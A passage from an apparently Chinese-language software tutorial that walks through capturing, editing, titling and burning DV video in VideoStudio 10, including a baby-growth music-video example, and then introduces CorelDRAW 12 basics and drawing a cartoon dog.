- ② 单击“捕获”按钮，单击选项面板中“捕获视频”按钮，在弹出面板中的“来源”选单中将自动显示出DV设备，预览窗口出现DV带当前的位置画面，如图5所示。

- ③ 查看“捕获文件夹”是否需要保存DV视频文件的位置。如果不是，单击右边按钮，在弹出对话框中进行指定。
- ④ 在“格式”选单中选择捕获格式，一般是DV格式，单击选项按钮，在弹出菜单中选择捕获的DV类型，有“DV类型-1”和“DV类型-2”两种类型，“DV类型-2”兼容性更好，捕获成功率更高。如果DV连结正确，打开捕获视频面板后，预览窗画面不清晰，请重新打开捕获视频面板，或者重新运行会声会影10。如果DV带场景较少，可以选择“按场景分割”选项。如果场景很多，就不用选择该项了。否则捕获将得到很多场景文件，查找、编辑起来都比较麻烦。
- ⑤ 控制导航按钮找到需要捕获的起始位置，由于电脑和DV之间传送信号事件有少许延迟，需要将起始位置再向前移动5帧左右。
- ⑥ 单击选项面板中的“捕获视频”按钮，开始捕获视频，预览窗中显示当前捕获进度，在需要停止捕获处单击“停止捕获”按钮，视频缩略图就将出现在当前视频素材库中。重复该步骤直到从DV带中捕获新的视频素材。
- ⑦ 假如DV带中内容全部需要，整盘捕获比较方便，只需设定好捕获起点位置，捕获会在DV带结尾处自动停止。捕获到的视频可以在后面修剪。如果磁盘空间有限，或者DV带中有不需要的部分，则需要手动分段捕获。另外，如果DV带中包含没有录制的空白部分，捕获会在空白部分自动停止捕获。此时，可重复上述步骤继续捕获有用部分。
- ⑧ 捕获完一盘后，在DV带没有转动的情况下换入另外一盘，重复上述步骤捕获新的视频素材。捕获完几盘DV带需要很大的磁盘空间，请查看磁盘空间是否够用。
- ⑨ 如果捕获时出现预览窗播放不流畅，声音停顿的现象，请不要担心，这是正常的，只要捕获后的视频文件能正常播放即可。如果不放心，可以先捕获2min片断，并通过播放进行检查，再进行捕获。
- ⑩ 捕获完毕后，单击“编辑”按钮，在时间轴上选择捕获到的视频缩略图，单击“播放”按钮检查视频效果。如果捕获到的视频声画不同步，原因很可能是电脑配置过低或者是同时运行了其他程序而占用了过多的系统资源。DV格式视频在电脑中播放时有轻微条纹，这是拍摄时用的“场”模式和电脑播放的“帧”模式之间有冲突所引起的，通过电视屏幕即可正常浏览。

#### 2. 编辑视频

如何将影片不需要的部分剪掉？如何将场景分割开来？如何在一段视频中插入其他素材？如何使影片看起来自然流畅？这些问题都是在编辑过程中完成的。编辑视频的操作步骤如下：

- （1）将素材库中捕获到的视频素材拖入时间轴，单击选项面板上“按场景分割”按钮，打开该对话框，如图6所示。
- （2）在“扫描方法”下拉列表中选择扫描方法，通常选择“帧内容”方式，单击“扫描”按钮，开始扫描（如想中途放弃，按键盘上的 Esc 键）。扫描完成后，单击“检测到的场景”列表中的场景项目，右侧的预览窗中即出现该场景的起始画面，如图 7 所示。

如果场景切割得过于细碎，我们还要进行合并。
- （3）选择检测到的 2 号场景，单击“连接”按钮将 2 号场景与上面的 1 号场景合并。合并结果是 1 号场景名称有变，在“连接”一栏出现“+1”字样，这表示该场景中加入了一个场景。
- （4）用同样方法，将其他需要合并的场景合并起来。如果合并了不该合并的场景，可以通过选择合并后的场景，单击“分割”按钮将其分割还原。如果要还原到分割合并前的初始状态，单击“重置”按钮。如果不想要某个场景，只需取消对该场景的勾选即可。
- （5）确保“将场景作为多个素材打开到时间轴”处于选择状态，单击“确定”按钮后，分割后的场景就出现在时间轴中，如图 8 所示。

之后我们要对可用的素材进行修剪，把多余的开头或结尾剪掉。
- （6）10s 以内的短视频素材，帧数较少，多余开头或结尾区间占视频素材区间的比例较多。单击时间轴的视频素材缩略图。按住鼠标左键，稍向右拖动预览窗下左侧的修整拖柄（或视频轨素材左侧的黄色手柄），在预览窗中出现新视频起始画面时停止，将此处标记为视频素材新的起始位置。按住鼠标左键，稍向左拖动预览窗下右侧修整拖柄（或视频轨素材右侧的黄色手柄），在预览窗中出现新视频结束画面时停止，将此处标记为视频素材新的结束位置，如图9所示。单击播放按钮预览修整后的视频，如果要迅速察看修正后的开头或结尾帧，可在视频素材处于选择状态时，单击起始按钮或终止按钮。

- （7）1 分钟以上的长视频素材，帧数较多，多余的开头或结尾区间占视频素材区间比例较少。单击时间轴的视频素材缩略图。按住鼠标左键，稍微拖动右修整拖柄（或视频轨素材右侧的黄色手柄），在预览窗中出现视频素材新的大致结尾画面时停止。单击上一帧按钮或下一帧按钮数次，直到预览窗中出现精确结尾画面，单击结束标记按钮，将此处标记为视频素材新的结尾。剪掉多余开头的方法类似，完成后，可播放预览修整后的视频。如果有多个素材或一个素材之中需要剪切，可以使用“多重修整视频”功能。

- （8）选择时间轴中需要修整的视频素材，然后单击选项面板上的“多重修整视频”按钮打开该对话框，如图 10 所示。

- （9）控制预览窗下面的导航工具，在第一个不太需要的片段的大致起始处停止。通过单击上一帧或下一帧按钮精调画面位置，直到预览窗中出现不需要的片段开头。单击开始标记按钮标记第一个不需要的片段的起点。
- （10）继续控制预览窗下的导航工具，在第一个不需要的片段的大致结束处停止，然后单击上一帧或下一帧按钮精调画面位置，直到预览窗中出现不需要的片段结尾。单击结束标记按钮标记第一个不需要的片段的终点。
- （11）重复上述操作，标记出视频素材中其他不需要的片段。
- （12）单击反转选取按钮，选取标记片段以外的部分，飞梭栏蓝色线段位置以及素材栏缩略图都发生了变化。逐个选择素材栏缩略图，然后单击起始按钮和终止按钮，查看片断素材开头或结尾画面，如果有出入，可单击上一帧按钮或下一帧按钮微调素材开头或结尾画面位置，重新标记。将导航栏上的飞梭滑块拖动到最左端，单击“播放修整后的视频”按钮播放修整后的视频。单击“确定”按钮后，多重修整后的视频素材便出现在时间轴中。

#### 3. 增加转场

当素材在时间轴上整理好之后，我们需要在一些素材之间增加一些转场效果。由旅游纪录片的性质可决定本片只需要在必要的位置加入转场即可。转场太多，反而显得眼花缭乱。此时我们采用手动添加转场方式来编辑。

在素材库下拉列表中选择某个转场素材库，然后单击某个转场缩略图，将其拖曳到需要转场效果的两个素材之间，如图11所示。


当转场素材缩略图处于选择状态时，在选项面板设置转场属性（一般采用默认设置），单击播放按钮查看转场效果。

通常我们在差别较大的主要场景之间加入“淡化到黑色”转场。在差别较小但衔接不自然的场景之间加入“交叉淡化”转场。

#### 4. 标题设计

##### （1）添加标题

在视频素材中找到一帧有代表性的画面，然后单击预览窗下“项目”项，在菜单栏中选择“工具－将当前帧保存为图像”，接着将保存到图像素材库中的图像拖到时间轴最前面，将区间设置为8秒。

切换到色彩素材库，将其中的黑色素材拖到时间轴最前面，然后切换到“过滤”转场素材库，将“交叉淡化”转场素材分两次拖到时间轴的前三个素材之间。这样，片头背景以及片头到第一段视频素材之间的过渡就做好了。

按类似方法，将色彩素材库中的黑色素材拖到时间轴最后面，区间设置为5秒，然后切换到“过滤”转场素材库，将“交叉淡化”转场素材拖到最后一个视频素材和黑色素材之间。

单击“标题”面板，定位时间轴当前时间标记到要添加标题的位置。

勾选选项面板上“多个标题”选项，在预览窗中双击鼠标左键以显示出虚线框，进入标题编辑状态，在选项面板中设置标题区间，字体，字号大小，颜色和排列方向等基本属性（竖向标题需要选择“垂直文字”选项），然后输入标题文字内容，如图12所示。


如果虚线框出现的位置不是理想的标题所在位置，在预览窗其他空白处双击鼠标左键，即可重新确定虚线框位置，并可以进一步调整所在位置。

标题内容输入好后，单击文字虚线框，使其四周出现控制点，拖动控制点改变标题大小，将鼠标指针放置于虚线框内，按住鼠标左键调整标题的位置，如图13所示。


预览窗中有一个矩形方框，这是安全区，影片在某些电视里播放时只能看到安全区范围以内的画面，所以标题内容最好在安全区范围之内。

在文字框四周显示有控制点的状态下，可在选项面板中修改标题的区间、字体、大小、颜色、方向等基本属性。单击“边框/阴影/透明度”按钮，在打开的对话框中可设置标题的边框/阴影/透明度效果。

单击“动画”选项卡，勾选“应用动画”选项，在“类型”下拉列表中选择动画类型，在预设框内选择一个动画预设图示，最后单击“确定”按钮。

拖动预览窗下暂停区间拖柄，调节标题动画暂停区间。完成后，单击播放按钮预览标题动画效果。如果效果不理想，可重复上述步骤修改标题各项属性。

如果要输入多个标题，在标题轨素材处于选中的状态下，在预览窗中的新位置上双击鼠标左键，以显示出文本输入虚线框，然后输入标题内容。用同样的方法设置属性等。设置完成后单击“播放”按钮，预览多个标题动画效果。

##### （2）删除标题

删除标题有两种情况，一种是删除标题轨中的标题素材，需先选择对象然后按Delete键删除，另一种是删除多个标题素材中的某个文字框。方法是：选中标题轨中的标题素材，在预览窗单击选中要删除的文字，使其出现带小方块手柄的虚线文字框，然后按Delete删除。

添加并设置好一个标题属性后，在其他位置重复添加标题时，所有属性将默认为与上一次设置相同。如果想把设置好的标题效果用在当前影片其他位置或其他影片中，可以把标题从时间轴拖动到素材库保存。再次使用时，只要把素材库中保存的标题素材拖动到时间轴相应位置，然后在预览窗中双击显示出虚线文字框，接着反白选择文字，输入新内容即可。

#### 5. 输出影片

输出影片主要分为有两种类型：一是输出视频文件；二是先输出视频文件，然后再输出为其他媒介，如DVD光盘，回录至DV，制作视频贺卡等。

##### （1）输出视频文件

输出大段视频文件过程可能较长，输出前应预览影片，看看哪里还需要修改，如果输出后才发现问题，就白白浪费宝贵时间了。输出视频文件的方法是：

单击“分享”面板，在选项面板中单击“创建视频文件”，在弹出菜单中选择一种预设输出模板或者自定义输出选项，如图14所示。



注：如果只输出影片中某一段，要事先设定影片预览范围。

##### （2）制作光盘媒介文件

将影片输出为DVD/SVCD/VCD视频光盘，不仅可以在影碟机中播放，还可以在电脑光盘驱动器中通过播放软件播放，适用面非常广。输出光盘是会声会影10当中一个相对独立而又十分重要的部分。

选取编辑器菜单栏中的“工具”→“创建光盘”命令，打开创建光盘向导，或者使用鼠标右键单击“分享”面板，在弹出的菜单中选择“创建光盘”项。单击相应的添加素材按钮，这里选择“添加‘会声会影’项目”，在打开的对话框中选择刚才制作好的会声会影10项目文件，单击“打开”按钮。在“输出光盘格式”下拉列表中选择光盘格式，这里选择DVD。

按F6键打开参数选择对话框，确保“工作文件夹”有足够的空间，刻录完整的4.7GB大小的DVD光盘，大约需要5GB的工作文件夹空间。DVD光盘大小选项里的光盘容量要与放在DVD光盘刻录机里的光盘容量一致，其他使用默认选项。

单击创建光盘向导界面左下角的项目设置按钮，在弹出的对话框中显示出默认的MPEG输出属性。单击“修改MPEG设置”按钮，选择一种光盘模板预设或者自定义MPEG属性，目的是在耗时与质量之间取得平衡，如图15所示。



其中，HQ表示最高品质；GQ表示高品质；SP表示中等品质；LP表示低品质。品质越高的模板得到的视频文件占用空间也越大。选择不同的输出模板，界面底部的蓝条长度就会发生变化。在实际操作时，只要蓝条在范围之内，就尽量以HQ开头的最高品质光盘输出模板。模板中最高品质光盘输出模板视频数据速率最大为7000kbit/s，这个数值输出质量已经很好了，如果感觉还是不理想，可以选择“自定义”，在打开的对话框中将视频数据速率改为8000，并将“速度 - 质量”滑块拖到100。

默认的导航设置：一段素材播放结束后，自动播放下一段素材，并且在整个光盘内容播放结束后自动重复播放。此外还可以选择其他播放方式，取消选择“回放结束后自动重复”复选框，在“素材回放”下拉列表中选择“继续播放下一个素材”或者“返回到菜单”。

##### （3）光盘刻录

刻录光盘阶段，主要有两种刻录方式：一是直接刻录到光盘，二是创建DVD文件夹/创建光盘镜像文件，然后再使用其他刻录软件刻录光盘。我们这里采用第一种方法。

将DVD空白光盘放入光盘刻录机，在驱动器列表中选择使用的刻录机，在“刻录速度”中选择速度，低速刻录质量更好一些。

选择“刻录到光盘”选项，“刻录格式”一般为“DVD - Video”。如果想复制多份光盘，请选择“创建DVD文件夹”选项。检查“所需/可用工作文件夹空间”是否正确，可用工作文件夹空间一定要大于所需空间，如图16所示。



最后单击“刻录”按钮，在弹出对话框单击“烧”按钮，即开始渲染并将影片刻录成光盘。刻录光盘的过程是先将素材进行渲染压制到文件夹，然后再把压缩好的视频文件刻录到光盘上，渲染压缩所占时间最长。1小时的DVD影片内容大约需要4个小时左右的渲染时间，而刻录只要5 - 10分钟左右。注意：渲染、刻录过程中，不要进行其他操作。

输出光盘界面中的“创建DVD文件夹”选项，是指将影片输出为标准的DVD视频光盘的文件夹形式。而“创建光盘镜像文件”选项，是指将影片输出成DVD文件夹后再打包ISO格式的光盘镜像文件。当使用解压缩软件打开光盘镜像后，就会发现其中的内容就是DVD文件夹。

无论DVD文件夹还是ISO光盘镜像文件，都可以用来复制多份光盘。DVD文件夹可用Nero等常见的刻录软件刻录成DVD视频光盘。ISO光盘镜像文件，可使用Ulead的光盘镜像刻录器软件来刻录成DVD光盘。

### 六、实战案例（二）——宝宝成长MV

1个月的时候，小宝贝睁开眯眯眼；2个月的时候，小宝贝会爬了；3个月的时候，小宝贝洗澡憨态可掬……一张张拍摄的照片见证着小宝贝的成长，一段段录像记录着动人的时刻……有了会声会影10，就可以把这些资料都汇集起来，配上一首《亲亲我的宝贝》，做成一个宝宝成长的MV，送给小宝宝一个最真、最纯、最有意义的礼物。

制作这个MV时我们可以把手上所有可利用的资源都利用起来。除了用DV拍下宝宝现在的样子以外，也许您已经为宝宝制作了光盘，拍摄了许多照片，这些都可以用来作为我们这个MV的素材。

通过了旅游DV制作的联系，这个MV的制作相信对于用户来说已经不难了。如何让这个MV更加完美呢？我们需要在常规编辑的基础上，再注意这几点：

#### 1. 光盘素材的导入

视频素材另一种来源是标准的VCD、DVD视频光盘，或以DVD - VR格式纪录的DVD视频光盘。也许您已经为您的宝宝制作过VCD、DVD光盘，这些视频光盘中的精彩片断都可以拿来为我们此次制作的MV做素材。

##### （1）从VCD光盘中导入视频

从VCD光盘中插入视频的方法非常简单，操作如下：

- 第一步：将VCD光盘中DAT视频文件拷贝到硬盘。方法是：将VCD光盘插入光盘驱动器，VCD中的视频内容是扩展名为DAT的文件，该文件位于VCD光盘根目录下名为“MPEGAV”的文件夹内。将DAT文件直接拷贝到电脑硬盘上即可。在会声会影10中编辑时，应该先把光盘中的素材拷贝到硬盘，不要直接从光盘中读取使用素材。光盘驱动器的传输速度和稳定性都不如硬盘，会使编辑速度受到很大的影响。一旦取出光盘，会声会影10将无法找到相应的链接文件，而不能正常使用编辑后的文件。
- 第二步：插入拷贝的DAT视频。在素材区单击鼠标右键，在弹出的菜单中选择“插入视频”，再在打开的对话框中选择前面拷贝的DAT视频文件。单击“打开”按钮后，即显示出DAT视频文件，如图17所示。



#### （2）从DVD/DVD - VR光盘中导入视频

DVD是目前较为流行的视频格式，一些新的DV就采用DVD光盘作为保存介质。DVD中的视频文件一般是MPEG2格式，拥有较高的画面质量，下面介绍插入DVD光盘内容的方法：

- 将DVD/DVD - VR光盘插入光驱。单击“捕获”步骤按钮，选择“从DVD/DVD - VR导入”，在弹出对话框选择DVD所在光盘驱动器的子文件夹“VIDEO_TS”（如图18所示）



示)，单击“输入”按钮。或者直接选择“输入”按钮，自动扫描整个 DVD 光盘，如图 19 所示。



经过会声会影 10 对 DVD 的解析后，会出现“输入 DVD”对话框，在这里可以查看主题 / 章节内容。在打开的对话框“光盘标签”窗口中，可以查看主题及章节目录，选择主题或章节名称，如图 20 所示。然后单击预览窗下的播放按钮，即可播放主题或章节内容。



选择要插入的主题或章节，如果要插入整个主题内容，需要选中主题复选框；如果要导入主题中部分章节内容，需要取消选择主题复选框的，然后单击相应章节复选框。

选择完成后，单击“输入”按钮，即可将所选内容插入会声会影 10。

#### 2. 照片素材的导入

除了视频可以作为素材以外，许多生动的照片也可以作为制作 MV 的素材。挑选照片时应注意以下问题：

- 挑选照片的原则是“求精不求多”。
- 制作时要融合动态的视频和静态的照片各自的优势。
- 将照片素材挑选出来放在同一个文件夹下，并按照将来在影片中的顺序命名。

打开会声会影 10 电影向导，单击“插入图像”按钮，在打开的对话框中选择准备好的照片素材并插入，如图 21 所示。



在素材栏中选择方向不对的照片素材，单击旋转按钮纠正图像方向。之后按 Ctrl+A 组合键全选素材栏中的照片素材。单击鼠标右键，在弹出菜单中选择“区间”项，在打开的对话框中将每张照片素材的区间调整的长一些（以便展示特殊效果），单击下一步按钮。在主题模板中选择一个合适的模板，由于我们制作的 MV 不需要期模板自带的音乐，这里取消对“背景音乐”的复选框。单击“下一步”，在影片向导输出面板里单击“在会声会影编辑器中编辑”按钮，单击弹出对话框中单击“是”按钮，将项目转入编辑器。

#### 3. 添加配乐

MV 是一个以背景音乐为主的影片，因为不需要保留视频中的声音，剪辑起来可以比以时间顺序叙述的旅游 DV 来更自由一些。但剪辑时，一般还是应当把内容相关、色调一致的镜头编成一组。

成功的 MV 必然是音画关系和谐的作品。MV 中的声音不能像 CD 上的一首歌曲那样独立存在，制作影片过程中，我们要力图在声音和画面之间寻求建立和谐关系，使画面、声音能够完美的融合。

因为我们制作的 MV 长度恰好是一首歌曲的长度，因此我们要最先把声音素材添加进去。

会声会影 10 支持主流的音频格式文件，如 MP3、RM、WMV 等格式，把视频文件当作音频文件添加时，其中的声音会被自动提取出来。

将我们用来制作 MV 的音频文件加入到时间轴的操作方法如下：

在时间轴部分单击鼠标右键，选择“插入音频” → “到音乐路径”，在打开的对话框中找到素材所在路径，选择要添加的素材文件，单击对话框下部的播放按钮即可试听所选文件内容。

#### 4. 增加特效

为了让 MV 更能体现出宝宝的可爱，我们需要给影片中增加一些特效。以肖像框为例，将喜欢的肖像框添加至时间轴，调整到合适位置即可。用户可以自行尝试各种特殊效果。在精心的制作，输出之后，您就可以与您的朋友与家人共享视频的乐趣了。

相信通过上面的讲解，您已经对会声会影 10 的使用方法有了一个初步的认识。建议您在使用会声会影 10 时能够大胆尝试，充分发挥您的想象力和创造力，制作出更多更精美的影片，充分享受自编、自导、自演的乐趣！

## CorelDRAW 12

文/TMG hyff

### 简介教程

CorelDRAW 12 是由 Corel 公司开发的一款图形设计软件，在绘制矢量图形方面有其他软件不可比拟的优点。这套惊人的绘图软件不仅能带给你强大的交互式工具，还可以帮助你创作出多种富于动感的特殊效果及点阵图像效果，再加上高质量的输出性能，你可以轻易得到专业效果的作品。

相对以前的版本，CorelDRAW 12 为使用者提供了更加强大的智慧型绘图工具、动态向导和捕捉目标工具。这些新特性可以帮助用户自动识别许多形状和智能平滑曲线，最小化完美图像的操作步骤等，有效地提高了控制水平并节约了时间。CorelDRAW 12 还提供了 Unicode 支持和导出 Office 等特性，使得用户制作的作品更具有通用性和兼容性，更容易给人留下深刻的印象。

### 一、图形图像的基本知识

#### 1. 位图与矢量图

计算机图像分两种：一种是位图图像，另一种是矢量图像。位图图像又称为点阵图，是由许多点组成的，这些点被称为像素。许许多多不同色彩的像素组合在一起便构成了一幅图像。矢量图像是相对位图图像而言的，它是以数学的矢量方式来记录图像内容的。矢量图像中的图形元素称为对象，每个对象都是独立的，具有各自的属性（如颜色、形状、轮廓、大小和位置等）。矢量图像在缩放时不会产生失真的现象，并且文件所占用的容量较小，但其缺点是不易制作出色调丰富的图像，而且不能像位图那样精确地描绘出各种绚丽的景象。

这两种类型的图像各具特色，也各有优缺点，并且两者之间有良好的互补性，因此在图像处理和绘制图形的过程中，将这两种图像结合使用，取长补短，能使创作出来的作品更加完美。

### 2. CorelDRAW 12 的几个基本概念

这里首先介绍一些常用的基本概念：

对象：所有在工作区内可编辑的元素都是对象。对象包括很多种类，比如曲线、美术字等，这些元素构成了作品。

曲线：曲线是构成矢量图形的最基本元素，由节点的位置与切线（可以认为 CorelDRAW 12 里面的曲线控制柄就是曲线的切线）的方向和长度控制。

属性：指对象的参数，例如，宽、高、大小、颜色等。特殊对象有特殊属性，例如，文字对象有字体属性和字间距属性等。

填充：只有闭合曲线才能进行填充，填充可以是单一颜色、渐变色和图案等。CorelDRAW 12 允许对象没有填充。

轮廓线：轮廓线与对象不可分割，但 CorelDRAW 12 允许对象没有轮廓线，轮廓线拥有粗细、笔触、颜色等属性。

交互：在 CorelDRAW 12 中，利用交互二字开头的工具，无需通过执行命令来操作，只需通过鼠标操作就可以立即对当前选定对象的属性样式进行更改，这是 CorelDRAW 12 中一个非常受欢迎的功能。

#### 3. 色彩模式

CorelDRAW 12 中有以下两种色彩模式：

RGB 色彩模式：基于自然界中三种基色光的混合原理，以 R（红）、G（绿）、B（蓝）三种色为基色，按照从 0（黑）到 255（白）的亮度值在每个色阶中分配，从而搭配出约为 1670 万（256 × 256 × 256）种颜色。每种颜色对应一个相应于三种基色的色号。

CMYK 色彩模式：只要是在印刷品上看到的图像，都为 CMYK 模式。CMY 是 3 种印刷油墨的首字母，分别为 Cyan（青色）、Magenta（洋红色）、Yellow（黄色），而 K 取的是 Black 的最后一个字母。之所以不取首字母 B，是为了避免与 Blue（蓝色）混淆。

## 二、走进 CorelDRAW 12

### 1. CorelDRAW 12 的启动

CorelDRAW 12 成功安装后，可以通过“开始”→“程序”→“CorelDRAW 12 Graphics Suite 12”→“CorelDRAW 12”命令来启动它。

运行 CorelDRAW 12，首先显示软件的各种信息。显示信息后屏幕将出现一个“欢迎访问 CorelDRAW (R) 12”的对话框，如图 1 所示。



在这个窗口中提供了 6 个选项，其作用分别如下：

- 新建图形：单击此选项可以开始创建一个新图形。
- 打开上次编辑的图形：单击此项，可以打开上次编辑过的文件（在这个图标上方会显示上次编辑图形文件的名称）。
- 打开图形：单击此项打开已经存在的图形文件。
- 模版：单击此项可以打开 CorelDRAW 12 自带的绘图模版，根据模版新建图形文件。
- CorelTUTOR（Corel 教程）：单击此选项可以启动教程。
- 有什么新功能：介绍了 CorelDRAW 12 的新增功能。

在以后对 CorelDRAW 12 的操作中，如果不希望欢迎界面出现，可以取消选择左下角的“启动时显示欢迎屏幕”复选框。

#### 2. 熟悉操作界面

在“欢迎访问 CorelDRAW (R) 12”对话框中单击“新建”选项，会进入 CorelDRAW 12 的主界面，CorelDRAW 12 所有的绘图工作都将在这里完成，如图 2 所示。



下面我们来熟悉一下操作界面上的各种元素功能：

- 菜单栏：CorelDRAW 12 的主要功能都可以通过执行菜单栏中的命令来完成，执行菜单命令是最基本的操作方式，共包括“文件”、“编辑”、“视图”、“版面”、“排列”、“效果”、“位图”、“文本”、“工具”、“窗口”和“帮助” 11 个功能各异的菜单。
- 常用工具栏：在常用工具栏上放置了最常用的一些工具按钮，这些功能选项都是从菜单命令里挑选出来的，利用它们能更加快捷地进行各种常用的操作。
- 属性栏：属性栏能够提供在操作中选择对象和使用工具时的相关属性。通过对属性栏中的相关属性的设置，可以使控制对象产生相应的变化。当没有选中任何对象时，系统默认的属性栏中则提供文档的一些版面布局信息。
- 工具箱：默认情况下，工具箱位于界面的最左侧，工具箱中收藏了各种基本绘图工具，如果工具在它的右下角显示一个黑色小三角，则表明里面有被隐藏的其他工具，移动鼠标到它上面，按住左键片刻，会弹出其他工具，使用它们能使操作更加灵活方便。
- 状态栏：在状态栏中将显示当前工作状态的相关信息，如被选中对象的简要属性、工具使用状态提示及鼠标坐标位置等信息。
- 导航器：在导航器中间显示的是文件当前活动页面的页码和总页码，可以通过单击页面标签或箭头来选择需要的页面，适用于进行多文档操作。
- 绘图页面：这是用于绘制图形的区域。
- 工作区：工作区（又称为“桌面”）是指绘图页面以外的区域。在绘图过程中，用户可以将绘图页面中的对象拖到工作区存放，它类似于一个剪贴板，但可以存放不止一个图形，使用起来很方便。
- 调色板：默认情况下，调色板系统位于工作区的右边，利用调色板可以快速地选择轮廓色和填充色。
- 视图导航器：通过单击工作区右下角的视图导航器图标，可启动该功能，可以在弹出的含有文档的迷你窗口中随意移动，以显示文档的不同区域。它特别适合对象放大后的编辑。
- 泊坞窗：CorelDRAW 12 中的泊坞窗类似于 Photoshop 中的浮动面板，CorelDRAW 12 中的泊坞窗包括：“属性”、“对象管理器”、“对象数据管理器”、“视图管理器”等 24 个不同类型及功能的控制面板。
当打开多个控制面板时，窗口的右侧会出现相互之间进行切换的选项卡，单击名称即可切换到相应的面板中。当不需要某一控制面板时，可单击该控制面板右上角的关闭按钮，即可将该控制面板关闭。

### 三、边学边练——绘制卡通形象

#### 1. 创建新文件

- （1）运行 CorelDRAW 12，弹出“欢迎访问 CorelDRAW 12(R) 12”对话框，单击“新建”选项，进入操作界面。
- （2）在“属性”栏中，设置页面属性，将“单位”设置成“毫米”，调整“宽度”为“130.0mm”，“高度”为“100.0mm”，按回车键确定，如图 3 所示。设置完后，选取工具箱中的“手形工具”，把鼠标指针移动到绘图区中，按下鼠标左键并拖动，可调整页面的位置。
- （3）执行“文件”→“保存”命令，或单击“标准”



工具栏上的“保存”按钮，打开“保存绘图”对话框，在“文件名”文本框中输入“卡通”，单击“保存”按钮，将文件保存起来，如图4所示。颜色。设置完成后单击“确定”按钮，完成颜色的填充，如图8所示。

#### 2. 绘制卡通的基本轮廓

- （1）单击工具箱中的“轮廓工具”，弹出扩展工具条，选择其中的“细线轮廓”工具条，打开“轮廓笔”对话框，确定“图形”复选框处于被选择状态，单击“确定”按钮，完成轮廓线的设置。这样在绘制图形时，轮廓线就为细轮廓线了。
- （2）单击工具箱中的“手绘工具”，会弹出扩展工具条，选择其中的“贝塞尔工具”（如图5所示），在页面中单击鼠标，绘制出卡通外形的轮廓。

注意：在绘制时，在页面中单击的第一点一定要与绘制完成的最后一点合并成为同一点，这样才能填充颜色。

- （3）选取工具箱中的“形状工具”，在需要调整轮廓形态的位置处单击鼠标右键，在弹出的快捷菜单中选择“添加”命令，为路径增加一个节点。单击该节点，拖动鼠标可改变它的位置，用鼠标右键单击两个节点间的任意一点，在弹出的快捷菜单中执行“到曲线”命令，将路径转换为曲线。用鼠标拖动两个节点之间的线段，或者拖动两端节点的调节手柄，可改变曲线的形态。重复该步骤，直到轮廓成形。

注意：可以使用“平滑”、“尖突”等命令制作出想要的效果，如图6和图7所示。

- （4）在工具箱中选取“挑选工具”，单击曲线，将它选中，单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，设置“RGB”值直到出现合适的颜色，设置完成后单击“确定”按钮，完成颜色的填充，如图8所示。
- （5）单击工具箱中的“轮廓工具”，弹出扩展工具条，选择其中的“轮廓颜色对话框”工具，打开“轮廓色”对话框。在“模型”中选择“RGB”选项，设置“RGB”值直到出现合适的颜色，设置完成后单击“确定”按钮，完成轮廓颜色的设置。

#### 3. 绘制卡通的细部特征

- （1）选取工具箱中的“贝塞尔工具”，在卡通狗的面部单击，绘制出面部的基本轮廓。单击“轮廓工具”，弹出扩展工具条，选择其中的“轮廓颜色对话框”工具，打开“轮廓色”对话框。在“类型”中选择“RGB”选项，将“RGB”的参数调整为合适值，单击“确定”按钮，完成面部轮廓颜色的设置。
- （2）选取工具箱中的“形状工具”，用鼠标右键单击需要调整轮廓形态的位置，在弹出的菜单中执行“添加”命令，为路径添加一个节点，用鼠标拖动节点可以改变它的位置。用鼠标右键单击两个节点间任意的一点，在弹出的快捷菜单中选择“到曲线”命令，将路径转换为曲线，用鼠标拖动曲线，拖动节点的调节手柄，可改变曲线的形态。
- （3）单击工具箱中的“手绘工具”，会弹出扩展工具条，选择其中的“贝塞尔工具”，在页面中单击鼠标，绘制出卡通狗右耳基本形态轮廓。单击“轮廓工具”，弹出扩展工具条，选择其中的“轮廓颜色对话框”工具，打开“轮廓色”对话框。在“模型”中选择“RGB”选项，将“RGB”的参数调整为合适值，单击“确定”按钮，完成轮廓颜色的设置，如图9所示。
- （4）使用相同的方法调整耳部的曲线形状。
- （5）选取“挑选工具”，按住“Shift”键，然后分别单击面部曲线，使面部曲线完全处于被选择状态。单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具；打开“均匀填充”对话框。在“模型”中选择“RGB”选项，将RGB参数调整为合适值，单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“无轮廓”工具，去除轮廓线。
- （6）用相同的方法绘制卡通狗的其他部分。
- （7）单击工具箱中的“手绘工具”，弹出扩展工具条，选择其中的“贝塞尔工具”。在页面中单击鼠标，绘制出卡通狗下肢的轮廓。选取“挑选工具”，选择服饰全部的轮廓线，单击“轮廓工具”，弹出扩展工具条，选择其中的“轮廓颜色对话框”工具，打开“轮廓色”对话框。在“模型”中选择“RGB”选项，将“RGB”的参数调整为合适值，单击“确定”按钮，完成轮廓颜色的设置。使用同样的方法调整下肢的曲线形状。
- （8）选择尾巴的曲线，单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，将RGB参数调整为合适值，单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“无轮廓”工具，去除轮廓线。选取“挑选工具”，选择尾巴中其余的曲线，单击“填充工具”，弹出扩展工具条，选择其中的“填充对话框”工具，打开“均匀填充”对话框。在“模型”中选择“RGB”选项，将RGB参数调整为合适值，单击“确定”按钮，完成填充。单击“轮廓工具”，弹出扩展工具条，选择其中的“无轮廓”工具，去除轮廓线。
- （9）单击工具箱中的“手绘工具”，弹出扩展工具条，选择其中的“贝塞尔工具”，单击鼠标，绘制一条线段作为卡通狗头部的眉毛。
- （10）单击工具箱中的“椭圆工具”，弹出扩展工具条，选择其中的“3点椭圆工具”，拖动鼠标，在眼睛部位绘制出两个椭圆，在鼻子部位处绘制出一个椭圆。此时的效果如图10所示。
- （11）单击工具箱中的“手绘工具”，弹出扩展工具条，选择其中的“贝塞尔工具”，单击鼠标，在嘴和脖子的位置处各绘制一条闭合路径。选择刚刚绘制的全部路径，单击“轮廓工具”，弹出扩展工具条，选择其中的“轮廓颜色对话框”工具，打开“轮廓色”对话框。在“模型”中选择“RGB”选项，将“RGB”的参数调整为合适值，单击“确定”按钮，完成轮廓颜色的设置。
